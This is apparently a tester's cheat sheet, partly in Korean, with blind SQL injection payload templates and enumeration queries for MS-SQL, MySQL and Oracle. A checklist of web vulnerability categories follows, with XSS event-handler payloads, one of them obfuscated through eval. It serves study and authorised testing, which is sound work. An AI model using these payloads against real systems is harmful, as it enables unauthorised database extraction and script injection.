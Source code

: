 # [MS-SQL]  
* Shape  
``` sql
OO' and substring((query), 1, 1) < 'a'--  
```  

* get DB NAME  
``` sql
db_name()  
```
  
* Get Table name  
``` sql
select top 1 name from sysobjects where xtype='U'  
```

* Get Column name  
``` sql
select top 1 column_name from information_schema.columns where table_name = '[Table Name]'  
```
  
* Get Data  
``` sql
select top 1 [Column Name] from [Table Name]  
```
  
# [MySQL]  
* Shape  
``` sql
???' and ascii(substr((query), 1, 1)) > 'a'#  
```  

* Get Table Name
``` sql
select table_name from information_schema.tables where table_type='base table' limit 0,1  
                                                                                     ㄴ> 0번 째 테이블  
```
  
# [Oracle]   
* Shape   
``` sql
and (ascii(SUBSTR(query),1,1))) > 1--  
```
  
* Get DB name   
``` sql
select DISTINCT owner FROM all_tables;  
```
  
* Get Table name   
``` sql
select table_name from all_tables;  
```
  
* Get Column name   
``` sql
select column_name from all_tab_columns where table_name='[table name]';
```

-----------------------------------------------------------------------------------
Row 갯수 파악

Limit 기능
``` sql
select * from (select rownum rnum, users.* from users) A where A.rnum between 1 and 3  
```

-----------------------------------------------------------------------------------
1. 관리자페이지 접근통제 및 계정관리
2. 사용자 접근통제 및 로그관리
3. 사용자 비밀번호 관리
4. 비인가 페이지 접근
5. 파라미터 변조 취약점
6. 암호화
7. 소스코드 속
8. 검색엔진 robot
9. HTTP Method
10. Direcory Listing
11. 취약한 세션 및 쿠키 인증
12. Buffer Overflow
13. Format String
14. 시스템 명령어 실행 취약점
15. 파일 다운로드 
16. 파일 업로드
17. 파일 Include
18. 악성 스크립트 XSS, CSRF  
`<img src="#" onmouseover="alert(1);">`  
`<img src="#" onerror="alert(1);">`  
`<img onclick='var a="aler"+"t(al"+"ert"+"(1));";eval(a);'>`  
19. 악성 콘텐츠 html
20. 웹페이지 오류정보 처리
21. 웹서버 백업파일 관리
22. 취약한 게시판 프로그램, 웹어플리케이션
23. SQL Injection
24. SSI Injection
25. XML 취약점
26. LDAP Injection
